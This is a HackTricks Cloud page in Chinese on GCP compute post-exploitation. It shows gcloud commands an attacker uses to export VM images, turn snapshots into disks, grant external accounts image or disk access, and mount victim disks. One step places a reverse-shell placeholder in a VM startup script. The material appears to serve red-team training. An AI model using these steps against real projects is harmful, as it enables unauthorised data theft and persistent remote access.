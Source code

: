 # GCP - 计算后期利用

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## 计算

有关计算和VPC（网络）的更多信息，请查看：

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 导出并在本地检查镜像

这将允许攻击者**访问已存在镜像内的数据**或**创建运行中VM的新镜像**并在不访问运行中VM的情况下访问其数据。

可以将VM镜像导出到存储桶，然后下载并使用以下命令在本地挂载：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

在执行此操作之前，攻击者可能需要对存储桶的权限，而且肯定需要对cloudbuild的**权限**，因为它是将被要求执行导出的**服务**。
此外，为了使其工作，codebuild SA和compute SA需要特权权限。
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` 需要：

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

而SA `<project-id>-compute@developer.gserviceaccount.com` 需要：

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 导出并在本地检查快照和磁盘

无法直接导出快照和磁盘，但可以**将快照转换为磁盘，将磁盘转换为映像**，并遵循**前一节**，将该映像导出以便在本地检查

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### 检查创建 VM 的镜像

为了访问**镜像中存储的数据**或攻击者**已从运行中的 VM 创建的镜像**内的数据，可以将外部账户的访问权限授予该镜像：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
然后从中创建一个新的 VM：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
如果您无法为外部账户授予对镜像的访问权限，您可以在受害者项目中使用该镜像启动一个VM，并**使元数据执行反向 shell** 来访问镜像，添加参数：
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### 检查通过将其连接到 VM 的快照/磁盘

为了访问存储在磁盘或快照中的**数据，您可以将快照转换为磁盘，磁盘转换为映像，然后按照前面的步骤操作。**

或者，您可以**授予外部账户对磁盘的访问权限**（如果起点是快照，则授予对快照的访问权限或从中创建磁盘）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**将磁盘附加**到实例：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
将磁盘挂载到虚拟机中：

1.  **SSH 连接到虚拟机**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **识别磁盘**：进入虚拟机后，通过列出磁盘设备来识别新磁盘。通常，你可以找到它作为 `/dev/sdb`、`/dev/sdc` 等。
3. **格式化并挂载磁盘**（如果它是一个新的或原始磁盘）：
*   创建一个挂载点：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   挂载磁盘：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

如果你**无法授权外部项目访问快照或磁盘**，你可能需要在**与快照/磁盘相同项目中的实例内执行这些操作**。

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果你想在 **HackTricks** 中看到你的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享你的黑客技巧**。

</details>
